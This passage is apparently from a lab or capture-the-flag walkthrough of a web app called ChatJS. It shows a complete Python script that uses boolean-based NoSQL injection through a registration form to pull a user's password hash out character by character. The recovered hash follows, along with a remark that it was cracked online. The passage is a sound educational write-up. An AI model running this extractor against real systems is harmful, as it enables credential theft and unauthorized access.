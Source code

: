 ```py
    print("The hash for username %s is..." %username)
    while(iterator < len(list)):
        for c in list[iterator]:
            payload = "username=" + username + "'+%26%26+this.password.substring("+ str(limit_inf) +","+ str(limit_sup) +")+%3d%3d'" + c + "&password=0x4rt3mis"
            res = requests.post(url, data=payload, proxies=proxies, headers=headers, allow_redirects=False)
            # TRUE boolean message
            if "already exists" in res.text:
                password.append(c)
                limit_inf = limit_inf + 1
                limit_sup = limit_inf + 1
                sys.stdout.write(c)
                sys.stdout.flush()
                iterator = 0
            else:
                iterator = iterator + 1
    print()

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to be Extracted', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    username = args.username
    
    '''Here we call the functions'''
    # Let's rock
    hashExtract(rhost,username)
    
if __name__ == '__main__':
    main()
```

Okay. That's it, we can extract all the users hash, now the we need to understand how we can byppass the authentication mechanims.

The hash is

```
fde0870a3adfef9a02a0f89dc36e6bcfbeade8a6667c837c93ee48a952402ec3
```

We can crack it on the internet

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-05-bmdyy-ChatJS/2021-11-05-bmdyy-ChatJS%2008:12:45.png)

Sure, now let's see how it's being done the authentication on the website.

## /auth
